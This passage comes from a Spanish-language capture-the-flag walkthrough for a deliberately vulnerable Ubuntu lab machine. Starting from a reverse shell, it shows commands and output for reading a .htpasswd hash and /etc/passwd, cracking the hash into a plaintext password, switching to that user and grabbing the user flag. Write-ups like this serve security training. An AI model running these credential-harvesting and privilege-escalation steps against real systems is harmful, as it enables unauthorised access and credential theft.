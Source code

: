   - Upgrademos nuestra reverse shell para trabajar comodamente.

    ![image](https://github.com/Esevka/CTF/assets/139042999/4d4727c4-aa89-4ac0-bb3e-f29de5c06685)

## Postexplottacion y obtencion de flags

- Verificamos sistema 

      www-data@osboxes:/var/www/html$ lsb_release -a
      No LSB modules are available.
      Distributor ID: Ubuntu
      Description:    Ubuntu 16.04.6 LTS
      Release:        16.04
      Codename:       xenial

- En el directorio /html, que es el directorio en el que obtenemos la reverse shell vemos un fichero .htpasswd (fichero que almacena credenciales de usuarios para una autenticación de acceso básica en un servidor HTTP Apache.)

    El fichero contiene una credencial para el usuario james.
  
        www-data@osboxes:/var/www/html$ cat .htpasswd 
        james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1

- Vamos a ver los posibles usuarios del sistema, como podemos ver james es un usuario del sistema.

      www-data@osboxes:/var/www/html$ cat /etc/passwd | grep /bin/bash
      root:x:0:0:root:/root:/bin/bash
      james:x:1001:1001::/home/james:/bin/bash

- Identificamos el tipo de hash que htpasswd utiliza para la clave.

  ![image](https://github.com/Esevka/CTF/assets/139042999/4cd2489c-1a4a-4d29-b9b9-65c0b4f442be)

    Intentamos crakear la clave.
  
    ![image](https://github.com/Esevka/CTF/assets/139042999/d61410a7-ea7f-43b4-9195-975cb4521c97)
    ![image](https://github.com/Esevka/CTF/assets/139042999/0e35d1d0-843c-4b5c-8796-e4d6b5fff286)
  
      Credenciales ---> james:jamaica

- Escalada horizontal, vemos si las credenciales son validas para loguearnos como el usuario james.
  
      www-data@osboxes:/var/www/html$ su james
      Password:                                                                                                            
      james@osboxes:/var/www/html$   -----------> BINGO <--------------
      
  Obtenemos la flag user.txt

      james@osboxes:~$ cat user.txt 
      7e37c84a66c$$$$$$$$$$$$700d08d28c20

- En el directorio del usuario james junto a la flag encontramos esta nota.

  Dice que tenemos permisos de edicion sobre los ficheros que configuran el mensaje de bienvenida del servicio ssh.
    